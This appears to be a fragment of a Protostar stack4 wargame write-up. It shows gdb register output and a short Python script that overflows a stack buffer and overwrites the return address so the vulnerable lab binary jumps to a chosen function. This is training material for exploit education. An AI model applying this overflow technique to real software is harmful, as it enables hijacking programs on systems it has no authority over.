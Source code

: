 ```css
user@protostar:/tmp$ cat stack.py 
padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ"
print(padding)

------------------------------------------------------

(gdb) info registers
eax            0xbffff760	-1073744032
ecx            0xbffff760	-1073744032
edx            0xb7fd9334	-1208118476
ebx            0xb7fd7ff4	-1208123404
esp            0xbffff7b0	0xbffff7b0
ebp            0x54545454	0x54545454 => base pointer
esi            0x0	0
edi            0x0	0
eip            0x55555555	0x55555555 => instruction pointer 
eflags         0x210246	[ PF ZF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb) 
```

modify python code
```css
user@protostar:/tmp$ vi stack4.py
user@protostar:/tmp$ cat stack4.py 
import struct
padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS"
ebp = "AAAA"
eip = struct.pack("I",0x080483f4)
print(padding+ebp+eip)
user@protostar:/tmp$ python stack4.py > exp
user@protostar:/tmp$ python stack4.py | /opt/protostar/bin/stack4 
code flow successfully changed
Segmentation fault
user@protostar:/tmp$ 


```

